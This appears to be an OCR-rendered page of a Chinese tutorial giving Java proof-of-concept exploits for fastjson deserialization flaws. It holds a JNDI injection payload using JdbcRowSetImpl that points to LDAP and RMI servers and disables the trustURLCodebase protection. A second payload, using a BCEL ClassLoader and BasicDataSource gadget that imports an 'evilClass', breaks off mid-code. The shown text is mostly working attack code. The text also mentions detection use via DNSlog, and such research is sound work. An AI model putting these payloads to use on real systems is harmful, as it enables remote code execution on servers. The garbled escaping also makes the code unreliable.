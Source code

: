 该PoC需要使用JNDI，需要搭建web服务，RMI服务或LDAP服务，利用相对麻烦。但对于检测fastjson漏洞是否存在，这个却是最简单有效的（结合DNSlog）。  

```
package fastjsonPoCs;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
/*
基于JNDI的PoC,可用的JNDI服务器有RMI，ldap。 
*/
public class PoC1JNDI {
 public static void main(String[] argv){
 String xx = payload();
 } public static String payload(){
 //JDK 8u121以后版本需要设置改系统变量
 System.setProperty(&#34;com.sun.jndi.rmi.object.trustURLCodebase&#34;, &#34;true&#34;);
 //LADP
 String payload1 = &#34;{\&#34;@type\&#34;:\&#34;com.sun.rowset.JdbcRowSetImpl\&#34;,\&#34;dataSourceName\&#34;:\&#34;ldap://localhost:1389/Exploit\&#34;,\&#34;autoCommit\&#34;:true}&#34;;
 //RMI
 String payload2 = &#34;{\&#34;@type\&#34;:\&#34;com.sun.rowset.JdbcRowSetImpl\&#34;,\&#34;dataSourceName\&#34;:\&#34;rmi://127.0.0.1:1099/ref\&#34;,\&#34;autoCommit\&#34;:true}&#34;;

 JSONObject.parseObject(payload2);
 JSON.parse(payload2);
 return payload2;
  }
}
```

### 基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC2  

```
package fastjsonPoCs;
import evilClass.*;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;
/*
● 基于org.apache.tomcat.dbcp.dbcp.BasicDataSource的PoC，当然也可以说是基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC
● 前者的主要作用是触发，也就是包含Class.forName()函数的逻辑(createConnectionFactory函数中)；后者是类加载器，可以解析特定格式的类byte[]。
● 
● 
● org.apache.tomcat.dbcp.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-7.0.65.jar
● org.apache.tomcat.dbcp.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-9.0.13.jar
● org.apache.commons.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/commons-dbcp/commons-dbcp
● org.apache.commons.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2
● 
● 主要参考：https://xz.aliyun.com/t/2272
 */
public class PoC2dbcp {
 public static void main(String[] argv){
 String xx = payload2();
 } public static String payload2() {
 //payload3:https://xz.aliyun.com/t/2272
 try {
     String payload2 = &#34;{{&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONObject&#34;,&#34;c&#34;:{&#34;@type&#34;:&#34;org.apache.tomcat.dbcp.dbcp.BasicDataSource&#34;,&#34;driverClassLoader&#34;:{&#34;@type&#34;:&#34;com.sun.org.apache.bcel.internal.util.ClassLoader&#34;},&#34;driverClassName&#34;:&#34;xxxxxxxxxx&#34;}}:&#34;ddd&#34;}&#34;;
```
